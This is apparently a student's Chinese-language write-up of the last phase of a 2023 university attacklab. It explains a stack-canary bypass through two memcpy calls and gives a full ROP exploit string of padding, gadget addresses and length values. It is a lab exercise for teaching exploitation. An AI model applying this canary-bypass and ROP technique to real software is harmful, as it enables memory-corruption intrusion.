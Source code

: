 ### 这个是我在做2023年PKU ICS attacklab的笔记
### 让有缘人可以有所参考

直接看最后一题吧，别的大家都应该可以找到题解。
我的思路来自树洞，这条一年前的树洞让我豁然开朗。
![Alt text](6d9064a932972cc1829c0a8229b7806-1.jpg)
所以我们简单的画一下图，可以看得到其实应该是这样的：
![Alt text](Untitled-2023-10-17-1544.png)
然后注意到```starget.s```中的```getbuf_withcanary```汇编代码
```assembly
40228d:	8b 85 70 ff ff ff    	mov    -0x90(%rbp),%eax
402293:	48 63 d0             	movslq %eax,%rdx
402296:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
40229d:	48 8d 88 08 01 00 00 	lea    0x108(%rax),%rcx
4022a4:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022ab:	48 89 ce             	mov    %rcx,%rsi
4022ae:	48 89 c7             	mov    %rax,%rdi
4022b1:	e8 ba f0 ff ff       	call   401370 <memcpy@plt>
4022b6:	8b 85 74 ff ff ff    	mov    -0x8c(%rbp),%eax
4022bc:	48 63 d0             	movslq %eax,%rdx
4022bf:	48 8d 85 70 fe ff ff 	lea    -0x190(%rbp),%rax
4022c6:	48 8d 8d 70 fe ff ff 	lea    -0x190(%rbp),%rcx
4022cd:	48 81 c1 08 01 00 00 	add    $0x108,%rcx
4022d4:	48 89 c6             	mov    %rax,%rsi
4022d7:	48 89 cf             	mov    %rcx,%rdi
4022da:	e8 91 f0 ff ff       	call   401370 <memcpy@plt>
```
这里面我们可以看到有两次```memcpy```，所以基本的思想就是把```canary```值移下来，再移回去。
事实上，根据寄存器传递参数的顺序和```memcpy```的定义知道：
第一次是这样的：```memcpy(dest=%rsp, src=%rsp+0x108, len=(%rsp+0x100))```
第二次是这样的：```memcpy(dest=%rsp+0x108, src=%rsp, len=(%rsp+0x104))```
第一次，我们可以将```%rsp+0x108 ~ %rsp+0x198-1```的值移下来，这个时候的金丝雀值是放在了```%rsp+0x80```指向的地方，同时```%rsp+0x88```指向的地方应该是在上移后成为原先保存寄存器```%rbp```的地方。所以我们的注入的代码应该是从```%rsp+0x90```开始，同时最高只能到```%rsp+0x100-1```。（这里是16进制，所以这两个地址之间实际上差了```0x70```大小，也就是```112```字节，所以是不用担心的。）

然后注意到在```starget.s```里，```start_farm```等的地址和```rtarget.s```里面都是一样的，所以我们可以直接放心大胆的把```phase 5```里的东西填充到从```%rsp+0x90```开始。

最后我们输入的字符串应该就是这样的：
```plain-text
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
50 24 40 00 00 00 00 00
40 23 40 00 00 00 00 00
2a 23 40 00 00 00 00 00
48 00 00 00 00 00 00 00
06 24 40 00 00 00 00 00
86 24 40 00 00 00 00 00
30 24 40 00 00 00 00 00
62 23 40 00 00 00 00 00
40 23 40 00 00 00 00 00
3d 21 40 00 00 00 00 00
37 61 65 61 61 62 39 33
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
90 00 00 00 00 01 00 00 /* 这里输入的是那两个长度，好像大个8字节小个8字节不太有影响*/
```

最后，如果你觉得对你有帮助，就快点去看小熊猫喔！！！！
![Alt text](fa59c23df49fd7339114df21271f447.jpg)
